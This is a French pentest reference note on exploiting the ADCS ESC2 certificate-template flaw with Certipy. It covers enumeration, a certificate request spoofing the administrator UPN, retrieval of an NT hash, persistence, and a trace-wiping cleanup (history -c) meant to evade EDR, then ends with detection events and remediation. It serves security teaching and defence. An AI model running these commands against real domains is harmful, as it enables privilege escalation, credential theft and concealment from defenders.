

## Flux d'exploitation

La chaîne d'attaque repose sur l'exploitation d'un modèle de certificat sans restriction d'usage pour usurper une identité privilégiée.



## Définition

**ESC2** désigne une vulnérabilité liée à la configuration des usages d'un modèle de certificat. Elle survient lorsqu'un modèle de certificat ne restreint pas explicitement ses usages (**Extended Key Usages**, **EKU**), le rendant utilisable pour n'importe quelle finalité (authentification, signature, chiffrement).

> [!danger] L'absence d'EKU (Extended Key Usage) est le vecteur critique
> Un certificat émis depuis un template **ESC2** peut être utilisé pour se faire passer pour un utilisateur, un ordinateur, ou pour signer des objets malveillants.

## Identification

L'identification s'effectue via **Certipy** pour lister les modèles vulnérables au sein de l'infrastructure **Active Directory**.

### Commande d'énumération

```bash
certipy find -u USER@DOMAIN -p PASSWORD -dc-ip <DC-IP> -vulnerable
```

### Analyse des résultats

Dans les propriétés du modèle, les indicateurs suivants confirment la vulnérabilité :

```text
Extended Key Usage : None
```

ou

```text
Extended Key Usage : All Purpose
```

> [!warning] Aucun usage spécifique signifie un usage illimité, permettant des techniques similaires à **ESC3**.

## Exploitation

L'exploitation consiste à demander un certificat en usurpant l'UPN d'un compte cible, tel que l'administrateur du domaine.

### Requête de certificat

```bash
certipy req -u lowpriv@domain.local -p Passw0rd \
-ca ca-name -target ca.domain.local -template ESC2-Template \
-upn administrator@domain.local
```

> [!info] Nécessite un accès réseau au service ADCS (Certificate Authority)

### Authentification et récupération de hash

Une fois le fichier `.pfx` obtenu, il est utilisé pour s'authentifier et récupérer le **TGT** ou le hash **NTLM** de la cible.

```bash
certipy auth -pfx administrator.pfx -dc-ip <IP_DC>
```

La sortie fournit les informations d'authentification :

```text
[*] Got NT hash for 'administrator@domain.local': aad3b435b51404eeaad3b435b51404ee:1d56a37fb6b08aa709fe90e12ca59e12
```

## Persistence via certificates

Une fois l'accès initial obtenu, il est possible d'utiliser le certificat pour maintenir un accès persistant sans dépendre des mots de passe des comptes compromis.

```bash
# Utilisation du certificat pour authentification persistante via PKINIT
certipy auth -pfx administrator.pfx -dc-ip <IP_DC> -no-save-creds
```

> [!tip] Le certificat reste valide jusqu'à sa date d'expiration, permettant une reconnexion silencieuse même après un changement de mot de passe utilisateur.

## Detection (Blue Team perspective)

La détection repose sur l'analyse des logs d'événements Windows sur le serveur CA et le contrôleur de domaine.

| ID Événement | Source | Description |
| :--- | :--- | :--- |
| 4886 | ADCS | Demande de certificat reçue (vérifier le champ `Requester` vs `Subject`) |
| 4887 | ADCS | Certificat émis (analyser les templates suspects) |
| 4768 | Kerberos | Demande de TGT utilisant PKINIT (authentification par certificat) |

La surveillance doit se concentrer sur les requêtes de certificats où le `Subject` diffère du `Requester` (UPN spoofing).

## Cleanup (suppression des certificats générés)

Il est impératif de supprimer les traces de l'exploitation sur la machine d'attaque pour éviter la détection par des outils EDR ou des analyses forensiques.

```bash
# Suppression des fichiers sensibles
rm *.pfx
rm *.ccache

# Nettoyage de l'historique des commandes
history -c && exit
```

## Cas d'usage

Le certificat généré permet d'accéder aux ressources via différentes méthodes d'authentification.

| Cible usurpée | Objectif possible |
| :--- | :--- |
| administrator | Shell avec **Pass-the-Hash** (**evil-winrm**) |
| dc$ | DCSync avec **secretsdump.py** |
| computer account | Kerberos service ticket forging (S4U2Self/S4U2Proxy) |

## Remédiation

La sécurisation des services **ADCS** nécessite une configuration stricte des modèles :

- Ne jamais laisser de modèle sans **EKU** défini.
- Supprimer les modèles inutilisés ou restreindre explicitement les usages aux besoins métiers (ex: `Client Authentication`, `Smart Card Logon`).
- Auditer régulièrement l'infrastructure avec **Certipy** ou **PSPKIAudit**.

> [!note]
> Cette vulnérabilité est étroitement liée aux concepts abordés dans **ESC1**, **ESC3**, **Kerberos** et l'**ADCS Enumeration**.